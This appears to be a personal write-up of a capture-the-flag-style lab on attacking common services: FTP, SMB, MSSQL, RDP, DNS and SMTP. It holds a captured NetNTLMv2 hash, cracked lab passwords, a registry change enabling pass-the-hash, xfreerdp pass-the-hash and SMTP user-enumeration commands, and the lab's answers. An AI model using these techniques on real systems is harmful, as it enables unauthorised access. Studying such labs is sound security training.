 # ⚙ Attacking common services

## Assessment

### FTP

What username is available for the FTP server?

* I used the wordlist from ftp **anonymous** and get the username and password list.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

### SMB

What is the name of the shared folder with READ permissions?

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption><p>GGJ</p></figcaption></figure>

What is the password for the username "jason"?

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption><p>MAKE SURE TO RUN WITH --local-auth</p></figcaption></figure>

Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### SQL DB

What is the password for the "mssqlsvc" user?

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

`mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:5a04b004fa4e9d85f6186628bbb5f628:0101000000000000800f5b3cd1a9d9013832986d3a5b90e8000000000100100045006c0046004800450079006a0061000300100045006c0046004800450079006a006100020010006d007100780051006100480062004900040010006d00710078005100610048006200490007000800800f5b3cd1a9d90106000400020000000800300030000000000000000000000000300000205c323361b6fee9491d3dade42cd1a0ade509215af472deb6f497f224759ddc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000`

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Enumerate the "flagDB" database and submit a flag as your answer.

```
impacket-mssqlclient 'mssqlsvc:princess1@10.129.203.12' -windows-auth
```

* Then explored the flagDB and got the hash.

### RDP

{% hint style="success" %}
RDP to target with username "`htb-rdp`" and password "`HTBRocks!`"
{% endhint %}

What is the name of the file that was left on the Desktop? (Format example: filename.txt)

* `pentest-notes.txt`

Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

* `DisableRestrictedAdmin`

Connect via RDP with the Administrator account and submit the flag.txt as you answer.

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption><p>Administrator:0E14B9D6330BF16C30B1924111104824</p></figcaption></figure>

1. `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. `xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution`
3. ![](<../../.gitbook/assets/image (8) (1) (1).png>)

### DNS

Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

* used subbrute to enum the subdomain.
* found hr.inlanefreight.htb.
* performed dns zone transfer on hr.inalnefreight.htb.
* got the flag.

### EMAIL

What is the available username for the domain inlanefreight.htb in the SMTP server?

* ```shell-session
  smtp-user-enum -M RCPT -U ../users.list -D inlanefreight.htb -t 10.129.203.12
  ```

Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

<figure><img src="../../.gitbook/assets/image (58) (1) (1).png" alt=""><figcaption><p>marlin@inlanefreight.htb:poohbear</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>


